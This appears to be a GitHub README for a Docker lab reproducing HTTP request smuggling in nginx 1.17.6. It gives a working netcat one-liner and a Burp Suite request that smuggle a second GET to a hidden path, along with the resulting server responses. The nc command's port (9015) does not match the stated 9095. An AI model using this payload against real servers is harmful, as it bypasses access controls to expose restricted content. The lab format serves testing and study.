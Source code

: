 #	HTTP REQUEST SMUGGLING ON NGINX

##	AFFECTED VERSION

Nginx 1.17.6

##	Usage

DEMONSTARTION PURPOSE.

###	HOW TO CONFIGURE 

```bash
$ git clone https://github.com/403accessdenied/HTTP-REQUEST-SMUGGLING
$ cd HTTP-REQUEST-SMUGGLING
$ docker-compose up -d
```


The nginx server will on the port 9095.



###	check

```bash
$ chmod +x check.sh;./check.sh|grep HTTP
HTTP/1.1 302 Moved Temporarily
```

1 HTTP code 302 means all right! 

Enjoy!



##	Reproduce

### open linux terminal and paste the below command

```bash
printf 'GET /a HTTP/1.1\r\n'\
'Host: localhost\r\n'\
'Content-Length: 56\r\n'\
'\r\n'\
'GET /sensitive/index.html HTTP/1.1\r\n'\
'Host: attackerhost\r\n'\
'\r\n'\
|nc 127.0.0.1 9015
```

 ### The above  above and you will get two responses as following.

```http
HTTP/1.1 302 Moved Temporarily
Server: nginx/1.17.6
Date: Sat, 04 Jan 2020 04:23:26 GMT
Content-Type: text/html
Content-Length: 145
Connection: keep-alive
Location: http://example.org

<html>
<head><title>302 Found</title></head>
<body>
<center><h1>302 Found</h1></center>
<hr><center>nginx/1.17.6</center>
</body>
</html>
HTTP/1.1 200 OK
Server: nginx/1.17.6
Date: Sat, 04 Jan 2020 04:23:26 GMT
Content-Type: text/html
Content-Length: 22
Connection: keep-alive

successfully accessed my secret!
```
## Reproduce using **Burpsuite**

1. Open bursuite and firefox 
2. open the url **127.0.0.1:9095** in the browser 
3. intercept the request and send it to the repeater 
4. Now replace the intercepted rrequest with the following request 
```bash 
GET / HTTP/1.1
Host: 127.0.0.1:9095
Content-Length: 56

GET /_hidden/index.html HTTP/1.1
Host: attackerhost


```
[image]

5. when you send the request we will get below response
[image]

6.Repeat the process untill we will get two response from server as below
[image]


#	Reference

https://bertjwregeer.keybase.pub/2019-12-10%20-%20error_page%20request%20smuggling.pdf
